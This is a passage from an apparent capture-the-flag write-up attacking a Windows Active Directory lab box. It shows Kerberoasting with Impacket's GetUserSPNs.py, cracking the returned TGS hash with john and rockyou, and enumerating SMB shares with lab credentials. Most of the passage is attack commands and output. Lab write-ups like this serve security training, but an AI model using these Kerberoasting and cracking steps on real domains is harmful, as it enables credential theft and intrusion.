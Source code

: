And run it with GetUserSPNs.py:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted]
└─# GetUserSPNs.py VULNNET-RST.LOCAL/T-Skid:'tj072889*' -dc-ip 10.10.47.100 -request
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName    Name                MemberOf                                                       PasswordLastSet             LastLogon                   Delegation 
----------------------  ------------------  -------------------------------------------------------------  --------------------------  --------------------------  ----------
CIFS/vulnnet-rst.local  enterprise-core-vn  CN=Remote Management Users,CN=Builtin,DC=vulnnet-rst,DC=local  2021-03-11 14:45:09.913979  2021-03-13 18:41:17.987528             

$krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$VULNNET-RST.LOCAL/enterprise-core-vn*$9527c3a493bb1c4 # AND SO ON
{% endhighlight %}

And then we can crack *that*:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted]
└─# john request -w=/usr/share/wordlists/rockyou.txt   
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ry=ibfkfv,s6h,   (?)
1g 0:00:00:03 DONE (2021-05-16 05:54) 0.2590g/s 1064Kp/s 1064Kc/s 1064KC/s ryan0318..ry=iIyD{N
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Wew. Now what?

## Backtrack
We go backwards, because *enterprise-core-vn* doesn't help us; and yes, I tried.

If we enumerate more as our **first** user:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted/evil-winrm]
└─# python3 /opt/impacket/examples/smbclient.py VULNNET-RST.LOCAL/T-Skid:'tj072889*'@10.10.127.110 
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
VulnNet-Business-Anonymous
VulnNet-Enterprise-Anonymous
# use netlogon
# ls
drw-rw-rw-          0  Tue Mar 16 19:15:49 2021 .
drw-rw-rw-          0  Tue Mar 16 19:15:49 2021 ..
-rw-rw-rw-       2821  Tue Mar 16 19:18:14 2021 ResetPassword.vbs
